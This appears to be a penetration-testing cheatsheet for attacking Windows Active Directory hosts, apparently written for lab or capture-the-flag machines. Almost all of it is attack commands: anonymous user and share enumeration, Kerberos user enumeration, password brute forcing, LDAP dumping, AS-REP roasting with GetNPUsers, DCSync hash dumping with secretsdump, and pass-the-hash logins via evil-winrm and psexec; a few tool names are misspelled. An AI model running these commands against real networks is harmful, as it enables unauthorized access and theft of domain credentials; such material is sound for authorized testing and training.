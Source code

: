 Windows Enum Cheatsheet
=======================
----------------------

## enum users
```
rpcclient -U '' 10.10.1.2
enumdomusers	# search for users
querydispinfo	# anything in description field
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.doe     Name: Adrian Doe   Desc: (null)
queryuser 0x464 # see more info
```
get only usernames:
```
cat file | awk -F\[ '{print $2}' | awk -F\] '{print $1}' > users.txt
```

## enum shares
with the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
```
crackmapexec smb 10.10.1.2 --shares
crackmapexec smb 10.10.1.2 -u '' -p '' --shares
crackmapexec smb 10.10.1.2 -u '' --shares

smbclient -L 10.10.1.2
smbclient -U '' -L 10.10.1.2

smbmap -H 10.10.1.2 -u '' -p ''
```

## check valid users
https://github.com/ropnop/kerbrute
```
./kerbrute userenum --dc 10.10.1.2 --d domainname.local users.txt 
```

## brute force
with the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
Get the password policy:
```
crackmapexec smb 10.10.1.2 --pass-pol
```
Check the accountlockout option before you start a brute force. Also you can check the min length etc.
```
crackmapexec smb 10.10.1.2 -u users.txt -p password.txt 
```
make sure you update to the latest version if you want to use this:
```
cme smb 10.10.10.182 -u username -p password -M spider_plus
```
This crawls through every share we have access to and returns it in json.

## mount
```
mkdir /mnt/data
mount -t cifs -o 'user=username,password=password' //10.10.1.2/sharename /mnt/sharename
```

## ldap
```
ldapsearch -x -h 10.10.1.2 -s base namingcontexts
```

Query domain and dump ldap:
```
ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=example,DC=local' > ldapdump
```
Grab interesting unique things:
```
cat ldapdump | awk '{print s$1}' | sort | uniq -c| sort -nr
```
Get rid of base64:
```
cat ldapdump | awk '{print s$1}' | sort | uniq -c| sort -nr | grep : 
```
If you find anything interessting search for it in the dump

## Gaining access
check
with the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
```
cme winrm 10.10.1.2 -u username -p password
cme winrm 10.10.1.2 -u username -H ntlmhash
```
evil-winrm: (when it's not installed use this, otherwise it's just 'evil-winrm -i ... etc')
```
ruby evil-winrm.rb -i 10.10.1.2 -u username -p password
ruby evil-winrm.rb -i 10.10.1.2 -u username -H ntlmhash

```
## Impacket
### GetNPUsers.py
Queries target domain for users with 'Do not require Kerberos pre auth' set and export the TGTs for cracking
```
GetNPUsers.py domainname.local/ -usersfile users.txt -format john
```
### secretsdump.py
Let the domain think you are another DC. In order to sync I need all the password hashes. So with the right persmissions you'll get some hashes.
```
secretsdump.py domainname.local/username@10.10.2.1
```

### pcexec.py
format for hash is LMHASH:NTHASH, but you can use the NTLM hash twice because windows doesn't really use LMHASH
```
psecex.py domainname.local/username@10.10.2.1 -hashes NTLM:NTLM



